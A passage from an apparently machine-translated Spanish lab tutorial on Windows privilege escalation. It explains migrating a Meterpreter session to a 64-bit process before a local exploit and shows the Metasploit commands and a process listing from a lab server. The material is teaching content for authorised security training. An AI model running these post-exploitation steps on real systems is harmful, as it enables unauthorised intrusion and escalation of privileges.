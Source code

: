 Antes de usar el módulo en cuestión, necesitamos subirnos a nuestro shell meterpreter y migrar a un proceso de 64 bits, o el exploit no funcionará. También podríamos haber elegido una carga útil de X64 metros durante la`smb_delivery`paso.

  Servidor de Windows

```shell-session
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1

[*] Starting interaction with 1...

meterpreter > getpid

Current pid: 2268


meterpreter > ps

Process List
============
 PID   PPID  Name               Arch  Session  User                    Path
 ---   ----  ----               ----  -------  ----                    ----
 0     0     [System Process]
 4     0     System
 164   1800  VMwareUser.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareUser.exe
 244   2032  winlogon.exe
 260   4     smss.exe
 288   476   svchost.exe
 332   324   csrss.exe
 376   324   wininit.exe
 476   376   services.exe
 492   376   lsass.exe
 500   376   lsm.exe
 584   476   mscorsvw.exe
 600   476   svchost.exe
 616   476   msdtc.exe
 676   476   svchost.exe
 744   476   taskhost.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\taskhost.exe
 756   1800  VMwareTray.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareTray.exe
 764   476   svchost.exe
 800   476   svchost.exe
 844   476   svchost.exe
 900   476   svchost.exe
 940   476   svchost.exe
 976   476   spoolsv.exe
 1012  476   sppsvc.exe
 1048  476   svchost.exe
 1112  476   VMwareService.exe
 1260  2460  powershell.exe     x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1408  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 1464  900   dwm.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\dwm.exe
 1632  476   svchost.exe
 1672  600   WmiPrvSE.exe
 2140  2460  cmd.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\cmd.exe
 2256  600   WmiPrvSE.exe
 2264  476   mscorsvw.exe
 2268  2628  rundll32.exe       x86   2        WINLPE-2K8\htb-student  C:\Windows\SysWOW64\rundll32.exe
 2460  2656  explorer.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\explorer.exe
 2632  2032  csrss.exe
```